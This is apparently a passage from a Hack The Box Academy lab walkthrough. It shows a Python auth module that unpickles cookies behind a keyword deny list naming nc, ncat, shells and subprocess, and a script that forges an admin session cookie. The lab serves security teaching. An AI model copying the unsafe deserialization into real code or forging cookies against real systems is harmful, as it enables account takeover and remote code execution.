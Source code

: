 ```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-6hj5e7vacq]─[~/htbooks-src]
└──╼ [★]$ cat << 'EOF' > exploit/util/auth.py
> import pickle
import base64

class Session:
    def __init__(self, username, role):
        self.username = username
        self.role = role

def sessionToCookie(session):
    p = pickle.dumps(session)
    b = base64.b64encode(p)
    return b

def cookieToSession(cookie):
    b = base64.b64decode(cookie)
    for badword in [b"nc", b"ncat", b"/bash", b"/sh", b"subprocess", b"Popen"]:
        if badword in b:
            return None
    p = pickle.loads(b)
    return p
> EOF
```

In `exploit/exploit-admin.py`, students need to instantiate a session with an arbitrary username and the `admin` role and call `util.auth.sessionToCookie` from `exploit/util/auth.py` to attain the corresponding cookie:

Code: python

```python
import util.auth

s = util.auth.Session("attacker", "admin")
c = util.auth.sessionToCookie(s)
print(c.decode())
```

Students can use `cat` to insert the Python code into `exploit/exploit-admin.py`:

Code: shell

```shell
cat << 'EOF' > exploit/exploit-admin.py
import util.auth

s = util.auth.Session("attacker", "admin")
c = util.auth.sessionToCookie(s)
print(c.decode())
EOF
```

```shell
┌─[eu-academy-1]─[10.10.14.107]─[htb-ac413848@htb-6hj5e7vacq]─[~/htbooks-src]
└──╼ [★]$ cat << 'EOF' > exploit/exploit-admin.py
> import util.auth

s = util.auth.Session("attacker", "admin")
c = util.auth.sessionToCookie(s)
print(c.decode())
> EOF
```
